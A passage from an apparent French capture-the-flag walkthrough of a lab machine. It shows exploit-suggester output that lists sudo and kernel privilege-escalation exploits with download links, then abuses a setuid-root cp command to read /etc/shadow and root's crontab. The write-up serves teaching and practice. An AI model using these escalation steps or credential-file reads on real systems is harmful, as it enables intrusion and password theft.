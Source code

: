 ```plain
   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

Linux Exploit suggester 2
  [1] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [2] pp_key
      CVE-2016-0728
      Source: http://www.exploit-db.com/exploits/39277
  [3] timeoutp1wn
      CVE-2014-0038
      Source: http://www.exploit-db.com/exploits/31346
```

Copier c'est voler
------------------

On remarque surtout que la commande *cp* est setuid root :  

```plain
-rwsr-xr-x. 1 root root 155176 Apr 11  2018 /usr/bin/cp
```

Si on tente de dossier par exemple */etc/shadow* dans un dossier, il perd ses attributs et est illisible :  

```plain
----------. 1 root  david 1516 Dec 13 18:13 shadow
```

Si en revanche on écrase un fichier à nous alors les permissions sont bonnes :  

```plain
-rw-rw-r--. 1 david david 1516 Dec 13 18:16 bidule
```

Les mots de passe du *shadow* semblent être trop compliqués, la wordlist rockyou n'en arrive pas à bout.  

L'utilisateur *root* a une tâche planifiée :  

```plain
[david@bravery tmp]$ cp /var/spool/cron/root bidule
[david@bravery tmp]$ cat bidule 
*/5 * * * * /bin/sh /var/www/maintenance.sh
[david@bravery tmp]$ ls -l /var/www/maintenance.sh
-rw-r--r--. 1 root root 130 Jun 23  2018 /var/www/maintenance.sh
```
